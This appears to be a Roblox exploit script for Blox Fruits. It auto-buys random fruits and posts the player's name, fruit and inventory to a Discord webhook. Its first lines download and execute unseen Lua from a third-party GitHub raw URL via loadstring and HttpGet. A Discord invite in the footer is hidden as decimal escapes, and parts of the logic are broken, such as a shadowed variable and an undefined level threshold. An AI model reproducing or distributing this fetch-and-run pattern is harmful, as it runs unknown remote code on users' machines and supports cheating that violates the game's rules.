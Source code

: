 local api = {
    'https://raw.githubusercontent.com/ZPSXHUB/TG/main/SaveToConfig.lua',
}
apiLoad = function()
   for i,v in pairs(api) do
      loadstring(game:HttpGet(v))()
   end
end
apiLoad()
TimeFruit = false
spawn(function()
  while wait(60) do
   TimeFruit = false
  end
end)
function BuyRandom()
   local Item = game:GetService("ReplicatedStorage").Remotes.CommF_:InvokeServer("Cousin","Buy")
   return Item
end

function InSuccess()
   if TimeFruit == false then
      TimeFruit = true
   end
  return TimeFruit
end
function GetContent()
   return "User "..game.Players.LocalPlayer.Name.." Random Fruits \n CD: "..BuyRandom().." "
end
function getMaxOfNumbers(cK)
   max = 5000
   for r, v in pairs(cK) do
       if v > max then
           max = v
       end
   end
   for r, v in pairs(cK) do
       if v >= max then
           return max
       end
   end
   return max
end
function removechildintable(cL, bQ)
   for r, v in pairs(cL) do
       if v == bQ then
           cL[r] = nil
       end
   end
end
function getInventoryFruits()
   ss = {}
   for k, v in pairs(game:GetService("ReplicatedStorage").Remotes["CommF_"]:InvokeServer("getInventory")) do
       if v["Type"] == "Blox Fruit" then
           table.insert(ss, v["Value"])
       end
   end
   mem = ""
   for r, v in pairs(ss) do
       s2 = getMaxOfNumbers(ss)
       for k, v in pairs(game:GetService("ReplicatedStorage").Remotes["CommF_"]:InvokeServer("getInventory")) do
           if v["Type"] == "Blox Fruit" and v["Value"] == s2 then
               mem = mem .. v["Name"] .. ", "
           end
       end
       removechildintable(ss, s2)
   end
   return mem
end
function returnwebhook()
   local ContentSyn = "Huhu"
   if game.Players.LocalPlayer.Data.Level.Value >= LevelPing then
       local ContentSyn = "@here | Level Đạt Đến Level Đã Chọn : "..game.Players.LocalPlayer.Data.Level.Value
   end
   local Webhook = {
       ["username"] = "AVN Sercurity 1.0.1",
       ["content"] = ContentSyn,
       ["embeds"] = {
          {
              ["title"] = ">  Webhook Idk",
              ["color"] = tonumber(00000000),
              ["type"] = "rich",
              ["fields"] =  {
                  {
                      ["name"] = "Players :",
                      ["value"] = '```'..game.Players.LocalPlayer.Name..'/12```',
                      ["inline"] = false
                  },
                  {
                      ["name"] = "Fruit Players :",
                      ["value"] = '```'..game.Players.LocalPlayer.Data.DevilFruit.Value..'```',
                      ["inline"] = false
                  },
                  {
                      ["name"] = "Store",
                      ["value"] = '```'..getInventoryFruits()..'```',
                      ["inline"] = true
                  }
              },
              ["footer"] = {
                  ["text"] = os.date("%A".." // ".."%d".." ".."%B".." ".."%Y".." // ".."%X").." \104\116\116\112\115\58\47\47\100\105\115\99\111\114\100\46\103\103\47\110\88\110\97\81\68\87\74",
              }
          }
      },
   }
   local Data = game:GetService("HttpService"):JSONEncode(Webhook)
   local Head = {["content-type"] = "application/json"}
   Send = http_request or request or HttpPost or syn.request
   local sendhook = {Url = WebhookLink, Body = Data, Method = "POST", Headers = Head}
   Send(sendhook)
end
spawn(function()
 while wait() do
    if BuyRandom() == "[You must wait 01:59 hours to buy another random fruit.]" or BuyRandom() == 1 and InSuccess() then
wait(60)
      returnwebhook()
    end
 end
end)
